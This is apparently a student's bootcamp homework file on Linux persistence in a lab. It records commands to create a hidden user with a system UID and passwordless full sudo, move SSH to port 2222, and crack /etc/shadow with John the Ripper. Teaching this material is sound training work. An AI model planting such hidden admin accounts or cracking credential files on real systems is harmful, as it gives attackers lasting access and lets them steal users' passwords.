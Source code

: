 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser sysd`

    <img src="/Week_6_HW/IMAGE/adduser.png">

![descprition](IMAGE/adduser.png)
    

2. Give your secret user a password: 
    - `1234`
    

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 888 sysd`
    

4. Give your secret user the same GID:
   - `sudo groupmod -g 888 sysd`

   <img src="/Week_6_HW/IMAGE/UIDGID.png">

![descprition](IMAGE/UIDGID.png)
    

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo then in visudo I typed sysd ALL=(ALL:ALL) NOPASSWD:ALL`

    verify no home dir:
    <br>
   <img src="/Week_6_HW/IMAGE/nohome.png">

![descprition](IMAGE/nohome.png)

   

6. Test that `sudo` access works without your password:

    ```bash
    (ALL : ALL) NOPASSWD: ALL
    ```
    <img src="/Week_6_HW/IMAGE/bash.png">

![descprition](IMAGE/bash.png)


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    ```

    <img src="/Week_6_HW/IMAGE/ruffwater.png">

![descprition](IMAGE/ruffwater.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemcrl restart ssh`

    <img src="/Week_6_HW/IMAGE/listening.png">

![descprition](IMAGE/listening.png)

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

    <img src="/Week_6_HW/IMAGE/loginhacker.png">

![descprition](IMAGE/loginhacker.png)

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

    <img src="/Week_6_HW/IMAGE/loginhacker.png">

![descprition](IMAGE/loginhacker.png)


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

    This was sooooo coooool!

    <img src="/Week_6_HW/IMAGE/john.png">

![descprition](IMAGE/john.png)

I know it looks like a typo but I ran it again as you can see with shadow not shaow lol.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

